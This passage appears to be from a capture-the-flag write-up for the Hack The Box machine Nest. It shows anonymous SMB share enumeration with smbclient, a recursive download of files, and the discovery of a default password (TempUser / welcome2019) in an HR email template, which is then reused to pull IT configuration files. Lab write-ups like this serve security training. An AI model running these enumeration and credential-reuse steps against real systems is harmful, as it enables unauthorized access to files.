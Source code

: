```
$ smbclient -N \\\\10.10.10.178\\Data
Unable to initialize messaging context
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \IT\*
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Reports\*
getting file \Shared\Maintenance\Maintenance Alerts.txt of size 48 as Maintenance Alerts.txt (0,4 KiloBytes/sec) (average 0,4 KiloBytes/sec)
getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Welcome Email.txt (0,5 KiloBytes/sec) (average 0,5 KiloBytes/sec)
```

By reading a welcome email we can find a generic account:

```
$ cat smb/Shared/Templates/HR/Welcome\ Email.txt
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location:
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019

Thank you
HR
```

### Network Exploration: finding c.smith

**TL;DR**: listing SMB shares again

We can enumerate `Data` share again but using the `TempUser` account this time,
to list files we weren't able to see earlier:

```
$ smbclient \\\\10.10.10.178\\Data -U TempUser
Unable to initialize messaging context
Enter WORKGROUP\TempUser's password:
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
getting file \IT\Configs\Adobe\editing.xml of size 246 as editing.xml (1,9 KiloBytes/sec) (average 1,9 KiloBytes/sec)
getting file \IT\Configs\Adobe\Options.txt of size 0 as Options.txt (0,0 KiloBytes/sec) (average 1,1 KiloBytes/sec)
getting file \IT\Configs\Adobe\projects.xml of size 258 as projects.xml (0,4 KiloBytes/sec) (average 0,6 KiloBytes/sec)
getting file \IT\Configs\Adobe\settings.xml of size 1274 as settings.xml (10,0 KiloBytes/sec) (average 1,8 KiloBytes/sec)
getting file \IT\Configs\Atlas\Temp.XML of size 1369 as Temp.XML (4,1 KiloBytes/sec) (average 2,4 KiloBytes/sec)
getting file \IT\Configs\Microsoft\Options.xml of size 4598 as Options.xml (36,2 KiloBytes/sec) (average 5,3 KiloBytes/sec)
getting file \IT\Configs\NotepadPlusPlus\config.xml of size 6451 as config.xml (50,4 KiloBytes/sec) (average 8,9 KiloBytes/sec)
getting file \IT\Configs\NotepadPlusPlus\shortcuts.xml of size 2108 as shortcuts.xml (16,6 KiloBytes/sec) (average 9,5 KiloBytes/sec)
```